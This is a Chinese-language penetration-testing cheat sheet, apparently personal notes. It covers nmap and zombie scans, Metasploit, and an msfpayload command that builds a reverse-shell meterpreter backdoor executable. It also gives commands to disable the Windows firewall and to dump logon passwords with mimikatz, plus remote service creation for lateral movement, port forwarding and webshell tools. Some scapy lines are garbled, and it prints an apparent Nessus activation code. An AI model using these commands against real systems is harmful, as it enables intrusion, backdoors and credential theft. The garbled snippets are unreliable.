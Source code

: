 # 渗透网站

修改wifi sid

https://lexsaints.blog.csdn.net/article/details/117260497

# 工具

APPscan 

goby Burp

pocsuite

## 扫描端口







#### nmap 端口扫描，探询那些端口存活



nmap -sn  192.168.99.0/24

nmap -sn  192.168.199.0-254



-sn 表示只进行ping 扫描，不进行端口

全连接扫描会被记录，半连接扫描不会被记录

使用nmap 半连接：

nmap -sS  192.168.199.223 -p  80,81,3306

-sS  表示使用SYN 进行半连接扫描



扫描开放的端口和操作系统

nmap -sS  -O 192.168.99.126

-O 显示操作系统 每一种操作系统都有特定的指纹

扫描目标主机是否有漏洞

nmap --script=vuln  192.168.99.127



#### nc( netcat) 进行端口扫描

nc -z -v -n 192.168.78.128  1-100 

- z 表示为zero，意思是扫描时不发送任何数据包
- -v 即为详细输出
- -n 不使用dns反向查询ip地址域名

#### scapy 

apt  install python3-pyx

####  僵尸扫描

rz1=sr1(IP(dst="192.168.1.54")/TCP(dport=445,falgs="SA"))

rt=sr1(IP(dst="192.168.1.54",dst="192.168.1.163")/TCP(dport=22),timeout=1)  //第二张图
rz2=sr1(IP(dst="192.168.1.54")/TCP(dport=445,falgs="SA"))   //第三张图
rz1.display()   //查看IPID

nmap 扫描僵尸主机

nmap -p端口 僵尸主机IP地址 --script=ipidseq.nse



|_ipidseq: Incremental!  说明是可以作为僵尸主机的



伪造僵尸主机IP进行扫描

nmap 目标主机IP -sI 僵尸主机IP -Pn -p 端口号

#### wireshark  使用



过滤器的使用

port  80 捕获 80端口相关的



ttl默认值

/proc/sys/net/ipv4/ip_default_ttl





#### zenmap



#### nessus  漏洞检测

https://www.tenable.com/downloads/nessus?loginAttempted=true

启动

/bin/systemctl start nessusd.service

Nessus
License Information
Activation Code: MPMX-VGRB-9BRV-52NA-DXNE



jingyu323

msf6  扫描结果

- vulns 显示漏洞
- use 
- creds  显示数据库中的所有平局

db_nmap -sV 192.168.99.131  查看开放端口



使用 auxiliary/sniffer 下的psnuffle 模块进行密码嗅探



smb_enumshare



字典路径

/usr/share/metasploit-framework/data/wordlists

#### msfpayload  生成后门

```
msfpayload windows/meterpreter/reverse_tcp LHOST=5.5.5.1 LPORT=8080 R | \
  msfencode -b '' -t exe -o /var/www/meterpreter.exe
```

#### metasploit 漏洞扫描工具

文档

https://www.kancloud.cn/wizardforcel/metasploit-manual/108071

启动

msfdb run

关闭windows防火墙

netsh firwall set opmode disable

mimikatz.exe 破解win密码

破解密码命令

mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"

#### sqlmap 渗透数据库



批量 扫描存活地址

fping -ag 192.169.99.0/24

## 控制别人电脑工具

蚁剑  (php)

下载地址

https://github.com/AntSwordProject/AntSword-Loader

哥斯拉（java）

冰蝎 （）

菜刀 （ASP）



### 横向移动：

方式：



命令行创建服务

sc \\owa.god.org create test binpath="cmd.exe /c c:\smb.exe"

开启服务

sc \\\ owa.god.org start test



## 渗透测试



测试基本流程：

1.  确定目标
2. 信息收集
3. 漏洞探测
4. 漏洞分析
5. 漏洞利用
6. 信息整理
7. 形成报告
=======
msfdb run  启动msf

#### 设置后门

windows 提权  getsystem
- 0day
- word 文档
- apk
-  宏
-  
Vegil 

#### frp 内网穿透

需要一个带公网IP的服务器

portfwd 映射端口

 192.168.1.53 源  目标需要被映射的地址 192.168.1.119 

 portfwd   add  -L  192.168.1.53  ‐ l   33389   ‐ r   192.168.1.119   ‐ p 3389





## IP查询工具

http://www.webkaka.com/
